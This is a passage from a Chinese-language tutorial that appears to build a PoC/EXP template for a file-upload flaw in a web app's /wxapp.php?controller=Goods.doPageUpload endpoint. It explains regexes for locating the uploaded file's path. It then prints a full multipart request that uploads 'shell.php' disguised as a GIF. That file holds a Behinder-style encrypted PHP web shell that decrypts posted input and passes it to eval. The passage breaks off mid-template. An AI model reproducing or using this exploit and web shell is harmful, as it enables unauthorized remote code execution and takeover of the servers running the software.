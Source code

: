 ```
      "SetVariable": []
    `}`
  ],
```

这里需要说一下下面的两句正则

```
"urlDir|lastbody|regex|image_o\":\".*goods\\\\/(.*?)\\\\/.*\"",
"urlDir2|lastbody|regex|image_o\":\".*goods\\\\/.*\\\\/(.*?)\""
```

因为输出的文件地址是 \/\/Uploads\/image\/goods\/2021-05-27\/0206254881620132.php 这样子的

如果写成这样

[![](https://p1.ssl.qhimg.com/t014db32be3c66a9305.png)](https://p1.ssl.qhimg.com/t014db32be3c66a9305.png)

直接调用发送 GET 请求为 %5C/image%5C/goods%5C/2021-05-27%5C/0206254881620132.php

[![](https://p2.ssl.qhimg.com/t01dc3da897910b662a.png)](https://p2.ssl.qhimg.com/t01dc3da897910b662a.png)

这种请求会返回404

[![](https://p5.ssl.qhimg.com/t012dcb35311969cae8.png)](https://p5.ssl.qhimg.com/t012dcb35311969cae8.png)

所以必须将 \ 去掉，已知文件的路径除了最后的上传日期和文件名在变化，其他不变，所以前面路径可以写死，通过正则取到日期和文件名进行组合请求。

**注意：如果使用 json 编写，\ 这里必须通过两个 \ 匹配，否则匹配不到**

“urlDir|lastbody|regex|image_o\”:\”.**goods\\/(.**?)\\/.*\”” 取出日期，结果为 2021-05-27

“urlDir2|lastbody|regex|image_o\”:\”.**goods\\/.**\\/(.*?)\”” 取出文件名 结果为 0206254881620132.php

然后通过 “uri”: “/Uploads/image/goods/`{``{``{`urlDir`}``}``}`/`{``{``{`urlDir2`}``}``}`” 请求则返回成功

[![](https://p5.ssl.qhimg.com/t015d33241558929cca.png)](https://p5.ssl.qhimg.com/t015d33241558929cca.png)

PoC 部分写完，接下来看 EXP 部分就比较简单了，

```
"ExploitSteps": [
    "AND",
    `{`
      "Request": `{`
        "method": "POST",
        "uri": "/wxapp.php?controller=Goods.doPageUpload",
        "follow_redirect": false,
        "header": `{`
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
          "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "keep-alive",
          "Upgrade-Insecure-Requests": "1",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs"
        `}`,
        "data_type": "text",
        "data": "\n------WebKitFormBoundary8UaANmWAgM4BqBSs\nContent-Disposition: form-data; name=\"upfile\"; filename=\"shell.php\"\nContent-Type: image/gif\n\n&lt;?php\n@error_reporting(0);session_start();$key=\"e45e329feb5d925b\";$_SESSION['k']=$key;$post=file_get_contents(\"php://input\");if(!extension_loaded('openssl'))`{`$t=\"base64_\".\"decode\";$post=$t($post.\"\");for($i=0;$i&lt;strlen($post);$i++) `{`$post[$i] = $post[$i]^$key[$i+1&amp;15];`}``}`else`{`$post=openssl_decrypt($post, \"AES128\", $key);`}`$arr=explode('|',$post);$func=$arr[0];$params=$arr[1];class C`{`public function __invoke($p) `{`eval($p.\"\");`}``}`@call_user_func(new C(),$params);\n?&gt;\n\n------WebKitFormBoundary8UaANmWAgM4BqBSs--"
      `}`,
      "ResponseTest": `{`
```